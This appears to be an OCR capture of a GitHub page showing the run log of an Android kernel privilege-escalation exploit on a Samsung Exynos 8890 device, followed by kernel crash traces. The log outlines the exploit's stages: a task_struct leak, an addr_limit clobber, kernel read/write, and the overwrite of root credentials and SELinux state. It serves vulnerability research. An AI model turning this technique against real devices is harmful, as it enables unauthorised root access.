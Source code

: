 ```
CHILD: task_struct_ptr = 0xffffffc01bea8000
CHILD: Finished write to FIFO.
PARENT: leaking successful
MAIN: task_struct_ptr = ffffffc01c7abe80
MAIN: stack = ffffffc01bea8000
MAIN: Clobbering addr_limit
PARENT: clobbering at 0xffffffc01bea8008
CHILD: Doing EPOLL_CTL_DEL.
CHILD: Finished EPOLL_CTL_DEL.
CHILD: wrote 69648
PARENT: readv returns 69648, expected 69648
PARENT: clobbering test passed
MAIN: thread_info = 0xffffffc01bea8000
MAIN: should have stable kernel R/W now
MAIN: searching for cred offset in task_struct
MAIN: offset_task_struct_cred = 0x610
MAIN: search_base = ffffffc001e50ee0
MAIN: searching for selinux_enforcing
found selinux_enforcing in /proc/kallsyms
MAIN: setting root credentials with cred offset 610
```

Kernel crashes:

```
<0>[   72.406735]  [4:           su98:10124] Bad mode in Error handler detected, code 0x56000000 -- SVC (AArch64)
<0>[   72.406766]  [4:           su98:10124] Internal error: Oops - bad mode: 0 [#1] PREEMPT SMP
<4>[   72.406792]  [4:           su98:10124] CPU: 4 PID: 10124 Comm: su98 Tainted: G        W      3.18.91-14843133-QB22482885 #1
<4>[   72.406812]  [4:           su98:10124] Hardware name: Samsung UNIVERSAL8890 board based on EXYNOS8890 (DT)
<4>[   72.406831]  [4:           su98:10124] task: ffffffc01c7abe80 ti: ffffffc01bea8000 task.ti: ffffffc01bea8000
<4>[   72.406850]  [4:           su98:10124] PC is at 0x780b283f78
<4>[   72.406865]  [4:           su98:10124] LR is at 0x0
<4>[   72.406882]  [4:           su98:10124] pc : [<000000780b283f78>] lr : [<0000000000000000>] pstate: 60000000
<4>[   72.406896]  [4:           su98:10124] sp : ffffffc01bea8000
<4>[   72.406911]  [4:           su98:10124] x29: ffffffc01beabc70 x28: ffffffc01beabda0 
<4>[   72.406931]  [4:           su98:10124] x27: 0000000000000000 x26: 0000000000000000 
<4>[   72.406949]  [4:           su98:10124] x25: 0000000000000000 x24: ffffffc01beabdb0 
<4>[   72.406966]  [4:           su98:10124] x23: ffffffc030d80904 x22: 0000000000000004 
<4>[   72.406981]  [4:           su98:10124] x21: ffffffbe1cac5cf0 x20: 0000000000000000 
<4>[   72.406997]  [4:           su98:10124] x19: 0000000000000004 x18: 0000000000000026 
<4>[   72.407012]  [4:           su98:10124] x17: 000000780b283f70 x16: ffffffc0002364ec 
<4>[   72.407026]  [4:           su98:10124] x15: 0000000000000000 x14: 000000780b2c4ed4 
<4>[   72.407040]  [4:           su98:10124] x13: 2074657366666f20 x12: 0000000000000000 
<4>[   72.407054]  [4:           su98:10124] x11: 000000780b4f71f0 x10: 000000780b4f71f0 
<4>[   72.407068]  [4:           su98:10124] x9 : ffffffc030d80904 x8 : ffffffc00023cc68 
<4>[   72.407082]  [4:           su98:10124] x7 : 0000000000000140 x6 : fffffffffffffffe 
<4>[   72.407096]  [4:           su98:10124] x5 : ffffffc030d80904 x4 : 0000000000000004 
<4>[   72.407110]  [4:           su98:10124] x3 : ffffffc01beabdb0 x2 : 0000000000000000 
<4>[   72.407123]  [4:           su98:10124] x1 : 0000000000000000 x0 : 0000000000000004 
<4>[   72.407136]  [4:           su98:10124] 
<0>[   72.407150]  [4:           su98:10124] Process su98 (pid: 10124, stack limit = 0xffffffc01bea8028)
<4>[   72.407165]  [4:           su98:10124] ---[ end trace e319032b6b6d2e35 ]---
<0>[   72.423082]  [0:  Binder:9211_4: 9732] Bad mode in Error handler detected, code 0x92000046 -- DABT (lower EL)
<0>[   72.451177]  [0:  Binder:9211_4: 9732] Internal error: Oops - bad mode: 0 [#2] PREEMPT SMP
<4>[   72.451205]  [0:  Binder:9211_4: 9732] CPU: 0 PID: 9732 Comm: Binder:9211_4 Tainted: G      D W      3.18.91-14843133-QB22482885 #1
```